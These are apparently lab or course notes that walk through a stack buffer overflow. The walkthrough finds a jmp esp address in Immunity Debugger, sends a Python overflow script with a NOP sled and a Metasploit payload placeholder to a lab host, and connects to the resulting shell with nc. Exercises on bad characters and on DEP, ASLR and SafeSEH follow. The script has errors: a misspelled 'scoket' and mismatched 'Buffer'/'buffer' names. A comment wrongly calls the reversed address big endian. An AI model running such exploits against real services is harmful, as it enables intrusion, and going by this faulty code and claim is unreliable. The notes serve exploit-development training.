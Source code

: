	Go to Immunity Debugger and open the application. 
	On the bottom line: 
	
	!spse-find jmp esp 
	--> get one of the address "\xFB\x7B\xAB\x71"  - big endian olduğu için tersten yazılır. Ekranda 0x71AB7BFb diye görünür. 
	
	# vim attack.py 
	--------------------
	#!/usr/bin/env python 
	
	import socket, sys
	
	sock = socket.socket(scoket.AF_INET, socket.SOCK_STREAM)
	sock.connect((sys.argv[1], 10000))
	
	buffer = "A"*268
	Buffer += "\xFB\x7B\xAB\x71"
	Buffer += "\x90"*20
	Buffer += ("msfpayload_buffer")
	
	sock.send(buffer)
	sock.close() 
	--------------------
	
	# ./attack.py 192.168.56.101 
	
	# nc 192.168.56.101 4444 
	-> got shell 
	>dir 
	
Exercise #1 

	• Write a script to find bad characters in this example 
	• More examples:
		○ http://www.securitytube.net/groups?operation=view&groupId=7
			§ Buffer Overflow
			§ SEH
			§ … 

Exercise #2 

	• What is DEP, ASLR and SafeSEH? 
	• Please write PyCommand scripts to find if modules have the above enabled 
